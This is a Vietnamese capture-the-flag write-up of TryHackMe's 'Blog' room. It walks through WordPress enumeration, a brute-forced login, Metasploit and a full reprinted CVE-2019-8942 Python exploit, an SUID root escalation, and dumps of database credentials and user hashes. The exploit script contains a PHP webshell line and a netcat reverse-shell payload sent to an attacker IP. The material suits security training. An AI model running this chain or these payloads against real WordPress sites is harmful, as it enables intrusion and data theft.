# __Blog__

*[CMS]:  Content Management System (CMS). These web applications are used to manage content on a website. For example, blogs, news sites, e-commerce sites and more! 

Room at https://tryhackme.com/room/blog

---

??? question "List of the questions solved"

    Question: root.txt
    > 9a0b2b618bef9bfa7ac28c1353d9f318

    Question: user.txt

    > c8421899aae571f7af486492b71a8ab7

    Question: Where was user.txt found?

    > /media/usb

    Question: What CMS was Billy using?

    > WordPress

    Question: What version of the above CMS was being used?

    > 5.0

## __Pentest scenario__

Host: 10.10.184.240

Cài đặt ban đầu:

1. Mở file hosts tại /etc/hosts 
2. Thêm dòng `10.10.184.240           blog.thm` vào cuối file
3. Lưu file
4. Truy cập website thông qua domain blog.thm

### __Reconnaissance__



Đây là một website được triển khai bởi WordPress

Tiến hành scan port và url thông qua nmap và gobuster

Kết quả từ nmap

```ps1 title="Terminal"
PORT    STATE         SERVICE
22/tcp  open|filtered ssh
80/tcp  open|filtered http
139/tcp open|filtered netbios-ssn
445/tcp open|filtered microsoft-ds
```

Từ kết quả nmap, ta nhận được 4 cổng kết nối gồm 2 cổng cho smb và 1 cổng ssh, 1 cổng http

Một phần kết quả từ gobuster

```ps1 title="Terminal"
/rss                  (Status: 301) [Size: 0] [--> http://10.10.184.240/feed/]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.184.240/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.184.240/feed/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.184.240/feed/atom/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.184.240/wp-content/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.184.240/feed/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.184.240/wp-includes/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.184.240/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.184.240/]
/'                    (Status: 301) [Size: 0] [--> http://10.10.184.240/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
```

Với WordPress, ta có công cụ [WPScan](https://github.com/wpscanteam/wpscan/) dùng để scan nhanh lỗ hổng có được (tại wordpress nhiều lỗ hổng quá :V)

```ps1 title="Terminal"
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.184.240/ [10.10.184.240]
[+] Started: HIDDEN

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.184.240/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.184.240/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.184.240/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.184.240/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.184.240/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.184.240/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.184.240/, Match: 'WordPress 5.0'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.184.240/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.184.240/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Từ kết quả trên, ta thấy rằng WPScan tìm được 2 user là bjoel và kwheel, từ đây ta brute force thử vào trang login của website blog.thm

Dùng hydra hoặc burpsuite hoặc bất cứ tool nào khác để brute force password. Chắc chắn sẽ ra

??? info "Nooooo"
    username: kwheel

    password: cutiepie1

Vào được trang quản lí rồi :V



Ta thấy trang quản lí sử dụng WordPress 5.0, ta dùng searchsploit để tìm kiếm lỗ hổng có thể khai thác từ đây



Nhìn kết quả trên ta thấy được lỗ hổng Image Remote Code Execution thuộc [CVE-2019-8942](https://www.exploit-db.com/exploits/49512)

### __Init Access__

#### __Metasploit__

Từ phần trên ta có 2 hướng khai thác bằng Metasploit

```ps1 title="Terminal"
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.184.240    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host
```

> 

```ps1 title="Terminal"
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.18.80.57:443 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.184.240
[*] Meterpreter session 1 opened (10.18.80.57:443 -> 10.10.184.240:54232) at 2023-08-27 09:21:20 -0400
[*] Attempting to clean up files...
```

```ps1 title="Terminal"
meterpreter > shell
Process 1834 created.
Channel 1 created.
```

```ps1 title="Terminal"
python -c 'import pty;pty.spawn ("/bin/bash");'
www-data@blog:/var/www/wordpress$
```

Cuối cùng cũng đã thành công bước đầu của việc thâm nhập hệ thống.

#### __Python script__

Nhìn lại searchsploit nào, ta có thể dùng python (file 49512.py) để khai thác lỗ hỏng Image Remote Code Excution trên WordPress 5.0



```python title="49512.py"
# Exploit Title: WordPress 5.0.0 - Image Remote Code Execution
# Date: 2020-02-01
# Exploit Authors: OUSSAMA RAHALI ( aka V0lck3r)
# Discovery Author : RIPSTECH Technology
# Version: WordPress 5.0.0 and <= 4.9.8 .
# References : CVE-2019-89242 | CVE-2019-89242  | https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/

#/usr/bin/env python3

import requests
import re
import sys
from datetime import datetime

banner = """

__        __            _                           ____   ____ _____
\ \      / /__  _ __ __| |_ __  _ __ ___  ___ ___  |  _ \ / ___| ____|
 \ \ /\ / / _ \| '__/ _` | '_ \| '__/ _ \/ __/ __| | |_) | |   |  _|
  \ V  V / (_) | | | (_| | |_) | | |  __/\__ \__ \ |  _ <| |___| |___
   \_/\_/ \___/|_|  \__,_| .__/|_|  \___||___/___/ |_| \_\\____|_____|
                         |_|
                                                5.0.0 and <= 4.9.8
"""
print(banner)
print("usage :")
print("=======")
usage = 'python3 RCE_wordpress.py http://<IP>:<PORT>/ <Username> <Password> <WordPress_theme>'
print(usage)

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
wp_theme = sys.argv[4] # wpscan results

lhost = '10.10.10.10' #attacker ip
lport = '4141' #listening port

date = str(datetime.now().strftime('%Y'))+'/'+str(datetime.now().strftime('%m'))+'/'

imagename = 'gd.jpg'
# ======
# Note :
# ======
# It could be any jpg image, BUT there are some modifications first :
# 1- image name as : "gd.jpg"
# 2- place the image in the same directory as this exploit.
# 3- inject the php payload via exiftool : exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>"

data = {
        'log':username,
        'pwd':password,
        'wp-submit':'Log In',
        'redirect_to':url+'wp-admin/',
        'testcookie':1
}

r = requests.post(url+'wp-login.php',data=data)

if r.status_code == 200:
        print("[+] Login successful.\n")
else:
        print("[-] Failed to login.")
        exit(0)

cookies = r.cookies

print("[+] Getting Wp Nonce ... ")

res = requests.get(url+'wp-admin/media-new.php',cookies=cookies)
wp_nonce_list = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)

if len(wp_nonce_list) == 0 :
        print("[-] Failed to retrieve the _wpnonce \n")
        exit(0)
else :
        wp_nonce = wp_nonce_list[0]
        print("[+] Wp Nonce retrieved successfully ! _wpnonce : " + wp_nonce+"\n")

print("[+] Uploading the image ... ")

data = {
        'name': 'gd.jpg',
        'action': 'upload-attachment',
        '_wpnonce': wp_nonce
}

image = {'async-upload': (imagename, open(imagename, 'rb'))}
r_upload = requests.post(url+'wp-admin/async-upload.php', data=data, files=image, cookies=cookies)
if r_upload.status_code == 200:
        image_id = re.findall(r'{"id":(\d+),',r_upload.text)[0]
        _wp_nonce=re.findall(r'"update":"(\w+)"',r_upload.text)[0]
        print('[+] Image uploaded successfully ! Image ID :'+ image_id+"\n")
else :
        print("[-] Failed to receive a response for uploaded image ! try again . \n")
        exit(0)

print("[+] Changing the path ... ")


data = {
        '_wpnonce':_wp_nonce,
        'action':'editpost',
        'post_ID':image_id,
        'meta_input[_wp_attached_file]':date+imagename+'?/../../../../themes/'+wp_theme+'/rahali'
}

res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] Path has been changed successfully. \n")
else :
        print("[-] Failed to change the path ! Make sure the theme is correcte .\n")
        exit(0)

print("[+] Getting Ajax nonce ... ")

data = {
        'action':'query-attachments',
        'post_id':0,
        'query[item]':43,
        'query[orderby]':'date',
        'query[order]':'DESC',
        'query[posts_per_page]':40,
        'query[paged]':1
}

res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
ajax_nonce_list=re.findall(r',"edit":"(\w+)"',res.text)

if res.status_code == 200 and len(ajax_nonce_list) != 0 :
        ajax_nonce = ajax_nonce_list[0]
        print('[+] Ajax Nonce retrieved successfully ! ajax_nonce : '+ ajax_nonce+'\n')
else :
        print("[-] Failed to retrieve ajax_nonce.\n")
        exit(0)


print("[+] Cropping the uploaded image ... ")

data = {
        'action':'crop-image',
        '_ajax_nonce':ajax_nonce,
        'id':image_id,
        'cropDetails[x1]':0,
        'cropDetails[y1]':0,
        'cropDetails[width]':200,
        'cropDetails[height]':100,
        'cropDetails[dst_width]':200,
        'cropDetails[dst_height]':100
}

res = requests.post(url+'wp-admin/admin-ajax.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] Done . \n")
else :
        print("[-] Erorr ! Try again \n")
        exit(0)

print("[+] Creating a new post to include the image... ")

res = requests.post(url+'wp-admin/post-new.php', cookies=cookies)
if res.status_code == 200:
        _wpnonce = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)[0]
        post_id = re.findall(r'"post":{"id":(\w+),',res.text)[0]
        print("[+] Post created successfully . \n")
else :
        print("[-] Erorr ! Try again \n")
        exit(0)

data={
        '_wpnonce':_wpnonce,
        'action':'editpost',
        'post_ID':post_id,
        'post_title':'RCE poc by v0lck3r',
        'post_name':'RCE poc by v0lck3r',
        'meta_input[_wp_page_template]':'cropped-rahali.jpg'
}
res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] POC is ready at : "+url+'?p='+post_id+'&0=id\n')
        print("[+] Executing payload !")
        requests.get(f"{url}?p={post_id}&0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff",cookies=cookies)

else :
        print("[-] Erorr ! Try again (maybe change the payload) \n")
        exit(0)  
```

### __Privilege Escalation__

Như thường lệ, thì món khai vị phải là kiểm tra quyền sudo (cái này bỏ qua vì làm gì có password của www-data) và suid

> find / -user root -perm /4000 -type f 2>/dev/null



Từ hình ảnh trên ta thấy một file lại là `checker` ở `/usr/sbin`

Ta sẽ thử kiểm tra file checker

??? tip "Đừng cóa xem"
    :material-arrow-right-top: Tại máy victim: Thực thi lần lượt

    ```ps1 title="Terminal"
    cd /usr/sbin
    python3 -m http.server
    ```

    :material-arrow-right-top: Tại máy attacker: Thực thi `wget http://blog.thm:8000/checker`



Từ hình ảnh trên, ta thấy file này có chức năng kiểm tra biến môi trường có tên `admin` đã được đặt giá trị hay chưa, nếu chưa thì sẽ không có quyền admin còn nếu đã đặt thì sẽ có quyền admin (tức set suid=0)

> Có thể dùng ghidra để xem chương trình một cách tổng quát hơn

Roài từ đây, ta sẽ đặt giá trị cho biến admin và leo quyền root thoai :v

> Ví dụ `admin=r /usr/sbin/checker`



Ta được toàn bộ flag như trong hình



## __Some problems__

Tôi muốn chia sẻ một vài điều về challenge này. Tôi đã lượt bỏ nhiều vấn đề trong mạch chính của kịch bản triển khai và sẽ viết ở tại đây.

### __139 445__

Với cái tựa đề [__139 445__](#139-445) chắc hẵn ta sẽ chú ý đến SMB

Dé, ta vẫn có công đoạn kiểm tra SMB như sau



Từ việc kiểm tra bằng smbmap, ta thấy ổ disk BillySMB share và được cấp quyền đọc/ghi. Nhưng làm thế nào để vào disk đó đây?

Ta sẽ dùng công cụ enum4linux để xem đường dẫn



Sau khi có đường dẫn rồi, ta truy cập bằng smbclient



:3 get hết 3 file về máy, xem có gì không nha (thông thường sẽ có thể chứ những thông tin cần thiết đã được ẩn giấu trong file)

Quan trọng hơn nữa, `enum4linux` cho ta biết được hệ thống có 



### __wp-config.php__

```php linenums="1" hl_lines="31 34"
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

/* Custom */
/*
define('WP_HOME', '/');
define('WP_SITEURL', '/'); */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/** Custom FS Method */
define('FS_METHOD', 'direct');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'ZCgJQaT0(*+Zjo}Iualapeo|?~nMtp^1IUrquYx3!#T$ihW8F~_`L+$N E>J!Bm;');
define('SECURE_AUTH_KEY',  'nz|(+d|| yVX-5_on76q%:M, ?{NVJ,Q(;p3t|_B*]-yQ&|]3}M@Po!f_,T-S4fe');
define('LOGGED_IN_KEY',    'a&I&DR;PUnPKul^kLBgxYa@`g||{eZf><sf8SmKBi+R7`O?](SuL&/H#hqzO$_:3');
define('NONCE_KEY',        'Vdd-zzB:/yxg6unZvng,oY-%Z V,i%+Uz_f)S;Efz!;cY3p~]T,g1z*Z[jXe>5Sm');
define('AUTH_SALT',        'u+k8g;=jbe)6/X~<M1HwINhH(Tno@orx:$_$-#*id)ddBYGGF(]AP?}4?2E|m;5`');
define('SECURE_AUTH_SALT', '>Rg5>,/^BywVg^A[Etqot:CoU+9<)YPM~h|)Ifd5!iK!L*5+JDiZi33KrYZNd2B7');
define('LOGGED_IN_SALT',   '3kpL-rcnU+>H#t/g>9<)j/u I1/-Ws;h6GrDQ>v8%7@C~`h1lBC/euttp)/8EdA_');
define('NONCE_SALT',       'JEajZ)y?&.m-1^$(c-JX$zi0qv|7]F%7a6jh]P5SRs+%`*60?WJVk$><b$poQg9>');


/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```

Từ file config (bản chất build WordPress thì sẽ có file này) trên, ta thấy được thông tin của database, ta sẽ tiến hành điều tra database vì mục đích của ta sẽ lấy password của user bjoel. 

> Như ta đã khai thác ở phần [kịch bản](#pentest-scenario) thì việc tìm được password của user bjoel ở ngữ cảnh challenge này sẽ không thực sự cần thiết cũng như là có ích cho chúng ta về điều gì cả nhưng tôi muốn đề cập ở đây là sẽ có thể tồn tại 1 challenge nào đó hoặc tối thiểu sẽ mở ra một hướng /một cách nhìn mới đối với công việc của một redteam thay vì pentester.

Tiến hành vào mysql bằng

```sql title="Terminal"
mysql -u wordpressuser -p
LittleYellowLamp90!@
use blog
```
Xem thông tin user

```sql title="Terminal"
mysql> select * from wp_users
select * from wp_users
    -> ;
;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
2 rows in set (0.00 sec)
```

Rồi, ta thấy được 2 user là bjoel và kwheel và 2 password đã được băm

> Bạn có thể xem thuật toán băm tại /wp-includes/class-phpass.php đối với ngữ cảnh challenge này hoặc xem tại [WordPress](https://github.com/WordPress/WordPress/blob/master/wp-includes/class-phpass.php)

??? question "Xem xem xem"
    Tại sao ta có user kwheel trên website WordPress nhưng ở máy chủ thì không hiện use kwheel trong /home? Vấn đề nằm ở đâu?

### __JTygChfpNf.php__

Nhìn hình bên dưới ta thấy có file lạ mang tên JTygChfpNf.php



Thì file này chính là file từ Metasploit tạo ra trong phần [kịch bản](#Pentest-scenario) ban nãy chúng ta triển khai đấy.

> Làm việc gì cũng phải suy nghĩ, khi mình khai thác Metasploit, thì ta nên biết được hành vi của nó diễn ra như nào và nó đã tiêm thứ gì lên hệ thống. Hơn nữa, cái file như thế xuất hiện trên hệ thống, liệu BlueTeam có dễ dàng phát hiện không?



## __What we learned__

1. Config DNS Server through hosts file
2. Learn about WordPress 
3. CVE-2019-8942
4. Privilege Escalation through SUID